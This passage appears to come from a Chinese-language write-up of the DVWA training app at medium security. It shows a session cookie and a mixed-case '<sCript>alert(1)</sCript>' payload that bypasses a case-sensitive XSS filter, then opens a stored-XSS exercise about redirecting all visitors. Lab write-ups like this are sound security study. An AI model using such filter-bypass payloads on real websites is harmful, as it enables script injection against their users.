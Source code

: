 ![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2077.png)

```
PHPSESSID=ov64qqshkod7693old2kdk59e3; security=medium
```

後來才發現大小寫也要考慮進去 XD

```
<sCript>alert(1)</sCript>
```

### memo

參考提示後，才發現大小寫也要考慮進去 XD

```
<sCript>alert(1)</sCript>
```

---

# **Stored Cross Site Scripting (XSS)**

> Objective
Redirect everyone to a web page of your choosing.
> 

### 觀察

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2078.png)
